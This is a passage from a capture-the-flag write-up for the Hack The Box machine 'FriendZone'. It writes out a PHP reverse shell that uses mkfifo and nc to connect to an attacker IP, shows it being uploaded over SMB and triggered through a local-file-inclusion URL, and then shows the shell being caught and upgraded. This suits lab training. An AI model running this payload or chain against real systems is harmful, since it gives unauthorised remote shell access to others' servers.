 
There are parameters, via the pagename I can maybe include a local file. So I try that.

I can include a page, so maybe I can upload a shell via SMB, here is the code of the file:

```php
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.28 4444 >/tmp/f');
?>
```

Upload the shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/friendzone]
└─$ smbclient //friendzone.red/Development/    
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.3 kb/s) (average 0.3 kb/s)
smb: \> ls
  .                                   D        0  Fri Aug 27 11:43:40 2021
  ..                                  D        0  Wed Jan 23 22:51:02 2019
  shell.php                           A       99  Fri Aug 27 11:43:40 2021

                9221460 blocks of size 1024. 6344988 blocks available
smb: \> exit
```

I start a netcat listener and try to execute the file. I tried to following URLs:

[https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/dev/shell](https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/shell)

[https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/shell](https://administrator1.friendzone.red/dashboard.php?image_id=1.jpg&pagename=/etc/Development/shell)

The last one worked, I got the shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/friendzone]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.123] 41578
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/var/www/admin$ export TERM=xterm
export TERM=xterm
www-data@FriendZone:/var/www/admin$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                              
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/friendzone]
└─$ stty raw -echo; fg                      
[1]  + continued  nc -lvnp 4444

www-data@FriendZone:/var/www/admin$
```
